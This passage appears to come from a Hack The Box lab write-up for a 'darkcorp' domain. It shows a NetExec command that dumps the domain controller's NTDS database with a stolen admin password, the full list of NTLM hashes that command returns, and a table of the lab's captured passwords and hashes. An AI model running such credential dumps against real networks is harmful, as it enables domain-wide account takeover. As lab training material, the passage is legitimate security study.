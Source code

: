 now we can dump everything

```bash
nxc smb DC-01.darkcorp.htb -u taylor.b.adm -p '!QAZzaq1' --ntds
[!] Dumping the ntds can crash the DC on Windows Server 2019. Use the option --user <user> to dump a specific user safely or the module -M ntdsutil [Y/n] Y
SMB         172.16.20.1     445    DC-01            [*] Windows Server 2022 Build 20348 x64 (name:DC-01) (domain:darkcorp.htb) (signing:True) (SMBv1:False) 
SMB         172.16.20.1     445    DC-01            [+] darkcorp.htb\taylor.b.adm:!QAZzaq1 (Pwn3d!)
SMB         172.16.20.1     445    DC-01            [+] Dumping the NTDS, this could take a while so go grab a redbull...
SMB         172.16.20.1     445    DC-01            Administrator:500:aad3b435b51404eeaad3b435b51404ee:fcb3ca5a19a1ccf2d14c13e8b64cde0f:::
SMB         172.16.20.1     445    DC-01            Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
SMB         172.16.20.1     445    DC-01            krbtgt:502:aad3b435b51404eeaad3b435b51404ee:7c032c3e2657f4554bc7af108bd5ef17:::
SMB         172.16.20.1     445    DC-01            victor.r:1103:aad3b435b51404eeaad3b435b51404ee:06207752633f7509f8e2e0d82e838699:::
SMB         172.16.20.1     445    DC-01            svc_acc:1104:aad3b435b51404eeaad3b435b51404ee:01f55ea10774cce781a1b172478fcd25:::
SMB         172.16.20.1     445    DC-01            john.w:1105:aad3b435b51404eeaad3b435b51404ee:b31090fdd33a4044cd815558c4d05b04:::
SMB         172.16.20.1     445    DC-01            angela.w:1106:aad3b435b51404eeaad3b435b51404ee:f491d349a1e7d23666140ca3ae1842df:::
SMB         172.16.20.1     445    DC-01            angela.w.adm:1107:aad3b435b51404eeaad3b435b51404ee:cf8b05d0462fc44eb783e3f423e2a138:::
SMB         172.16.20.1     445    DC-01            taylor.b:1108:aad3b435b51404eeaad3b435b51404ee:ab32e2ad1f05dab03ee4b4d61fcb84ab:::
SMB         172.16.20.1     445    DC-01            taylor.b.adm:14101:aad3b435b51404eeaad3b435b51404ee:0577b4b3fb172659dbac0be4554610f8:::
SMB         172.16.20.1     445    DC-01            darkcorp.htb\eugene.b:25601:aad3b435b51404eeaad3b435b51404ee:84d9acc39d242f951f136a433328cf83:::
SMB         172.16.20.1     445    DC-01            darkcorp.htb\bryce.c:25603:aad3b435b51404eeaad3b435b51404ee:5aa8484c54101e32418a533ad956ca60:::
SMB         172.16.20.1     445    DC-01            DC-01$:1000:aad3b435b51404eeaad3b435b51404ee:45d397447e9d8a8c181655c27ef31d28:::
SMB         172.16.20.1     445    DC-01            DRIP$:1601:aad3b435b51404eeaad3b435b51404ee:92f0f0cc686db0db030f88939de295c2:::
SMB         172.16.20.1     445    DC-01            WEB-01$:20601:aad3b435b51404eeaad3b435b51404ee:8f33c7fc7ff515c1f358e488fbb8b675:::
```

## Creds

| username | password / hash | work at | from  | privileges |
| --- | --- | --- | --- | --- |
| postgresql | 2Qa2SsBkQvsc | psql | .env file |  |
| ebelford | ThePlague61780 | ssh | .sql file | ssh access |
| victor.r | victor1gustavo@# | [172.16.20.2:5000](http://172.16.20.2:5000/) |  |  |
| web-01$ | 8f33c7fc7ff515c1f358e488fbb8b675 | web01 | Relay |  |
| Administrator | 88d84ec08dad123eb04a060a74053f21 | web01 | secretsdump | Local Admin |
| john.w | Pack_Beneath_Solid9! |  |  |  |
| angela.w | 957246c8137069bca672dc6aa0af7c7a |  |  |  |
| taylor.b.adm | !QAZzaq1 | ldap | kssus |  |
